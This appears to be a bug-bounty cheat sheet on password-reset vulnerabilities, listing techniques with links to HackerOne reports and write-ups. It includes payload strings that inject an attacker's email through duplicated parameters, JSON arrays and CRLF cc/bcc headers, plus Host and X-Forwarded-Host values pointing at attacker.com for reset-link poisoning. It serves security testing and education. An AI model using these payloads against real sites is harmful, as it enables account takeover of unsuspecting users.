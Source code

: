 ### Reset Password 
    All About Password Reset Vulnerability (https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7)
    
    (https://anugrahsr.github.io/posts/10-Password-reset-flaws/#10-try-using-your-token)

    - reseting password change with victim userId 

    - Password reset with manipulating email parameter: [https://hackerone.com/reports/1175081]
    ```
        JSON: {"email":["victim@gmail.com","your@gmail.com"]} 

        Double parameter: email=victim@xyz.tld&email=hacker@xyz.tld

        carbon copy: email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
                     email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"

        Using separators: email=victim@xyz.tld,hacker@xyz.tld
                        email=victim@xyz.tld%20hacker@xyz.tld
                        email=victim@xyz.tld|hacker@xyz.tld
    ```
    

    - Password reset token leakage via Referer Header [https://hackerone.com/reports/342693] [https://hackerone.com/reports/272379]

    - Password Reset link hijacking via Host Header Poisoning [https://hackerone.com/reports/226659] [https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html]   [https://medium.com/@tameemkhalid/host-header-injection-on-password-reset-functionality-an-easy-p2-5c6263c2e3d4]

    ```
        Host: attacker.com

        Host: target.com
        X-Forwarded-Host: attacker.com

        Host: target.com
        Host: attacker.com
    ```

    - Password Reset By Manipulating Email Parameter [https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be]

    - Changing Email And Password of any User through API Parameters [https://ad3sh.medium.com/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240]

    - Forgot password link doesn't expire after used [https://hackerone.com/reports/244642]

    - Reset password link sent over unsecured http protocol [https://hackerone.com/reports/1888915]

    - User enumeration via Password reset page [https://hackerone.com/reports/1166054] [https://hackerone.com/reports/77067]

    - Logout CSRF [https://hackerone.com/reports/223329]

    - Activation tokens are not expiring [https://hackerone.com/reports/223339]

    - Design Flaw in session management of password reset [https://hackerone.com/reports/229417]

    - weak cryptography issue [https://infosecwriteups.com/bugbounty-how-i-was-able-to-compromise-any-user-account-via-reset-password-functionality-a11bb5f863b3]

    - Response Manipulation: Replace Bad Response With Good One [https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3]

    -Failure to Invalid Session after Password Change [https://hackerone.com/reports/514577] [https://hackerone.com/reports/678050]